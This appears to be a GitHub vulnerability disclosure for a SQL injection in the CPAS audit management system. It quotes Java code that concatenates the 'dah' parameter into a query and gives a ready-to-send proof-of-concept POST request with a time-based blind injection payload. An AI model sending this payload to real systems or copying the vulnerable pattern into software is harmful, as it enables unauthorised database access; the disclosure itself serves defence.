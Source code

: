 # CPAS-bug
CPAS audit management information system has SQL injection vulnerability

# Beijing YouDataSum Technology Co., Ltd.
domain: http://youdatasum.com
<img width="1474" height="844" alt="图片" src="https://github.com/user-attachments/assets/3e165cf6-1640-445a-be76-c403a26f08ef" />


# Vulnerability code analysis

com/yonyou/aco/cpas/list/web/CpasListController.java  line: 1545
```
@RequestMapping({"/findArchiveReportByDah"})
@ResponseBody
public DataGridView<Map<String, String>> findArchiveReportByDah(@RequestParam(value = "pageNum", defaultValue = "0") int pageNum, @RequestParam(value = "pageSize", defaultValue = "10") int pageSize, @RequestParam(value = "sortName", defaultValue = "") String sortName, @RequestParam(value = "sortOrder", defaultValue = "") String sortOrder, @RequestParam(value = "dah", defaultValue = "") String dah) {
	DataGridView<Map<String, String>> page = new DataGridView<>();
	if (pageNum != 0) {
		try {
			pageNum /= pageSize;
		} catch (Exception e) {
			e.printStackTrace();
		}
	}
	PageResult<Map<String, String>> pages = this.cpasListService.findArchiveReportByDah(pageNum + 1, pageSize, sortName, sortOrder, dah);
	if (pages != null) {
		page.setRows(pages.getResults());
		page.setTotal(pages.getTotalrecord());
	}
	return page;
}
```

com/yonyou/aco/cpas/list/service/impl/CpasListServiceImpl.java  line: 8763
```
@Override // com.yonyou.aco.cpas.list.service.ICpasListService
public PageResult<Map<String, String>> findArchiveReportByDah(int pageNum, int pageSize, String sortName, String sortOrder, String dah) {
	StringBuilder sb = new StringBuilder();
	sb.append("select c.ywmc_,c.ywmcName_,a.* from fd_cpashbggdsq c ");
	sb.append(" left join bpm_ru_biz_info b on c.id = b.ID_ ");
	sb.append(" left join FD_CPASbglb a on c.id = a.biz_id ");
	sb.append(" where b.DR_ = 'N' and b.STATE_ = '2' and c.dah = '" + dah + "' ");
	sb.append(" ORDER BY c.ts DESC");
	return this.cpasListDao.getPageData(pageNum, pageSize, sb.toString());
}
```

The CpasListServiceImpl.java file contains concatenated SQL statements, resulting in SQL injection

POC:
```
POST /cpasm4/cpasList/findArchiveReportByDah HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:141.0) Gecko/20100101 Firefox/141.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Connection: close
Upgrade-Insecure-Requests: 1
Priority: u=0, i
Content-Type: application/x-www-form-urlencoded
Content-Length: 69

dah=0' AND (SELECT 6451 FROM (SELECT(SLEEP(5)))oufm) AND 'lRBm'='lRBm
```

<img width="895" height="290" alt="图片" src="https://github.com/user-attachments/assets/be5366e0-1278-4eef-9786-f1b0cd4b04b9" />
